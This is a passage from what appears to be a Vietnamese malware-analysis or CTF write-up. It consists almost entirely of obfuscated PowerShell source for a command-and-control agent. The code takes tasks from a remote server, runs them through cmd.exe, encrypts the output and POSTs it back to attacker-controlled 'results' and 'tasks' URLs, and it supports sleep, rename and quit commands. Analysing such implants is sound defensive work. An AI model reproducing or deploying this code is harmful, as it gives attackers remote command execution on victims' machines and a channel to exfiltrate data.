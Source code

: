 ```powershell
        if (${FlAg} -eq 'VALID'){
            
            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){
            
                ${F}    = 'cmd.exe'
                ${yO8XM5}  = "/c "
            
                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a}}
                ${KcNJCQdL}  = shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq ''){
            
                ${f}    = '.exe'
                ${yO8Xm5}  = "/c "
            
                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a}}
                ${kcNjcqdL}  = shell ${F} ${yO8XM5}
                ${kcnjCQDL}  = Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){
                
                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kVQbXbUr}    = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    sleep ${N}
    }
}
```
Đoạn mã khá dài, nên mình sẽ chú thích vào ảnh cho dễ hình dung
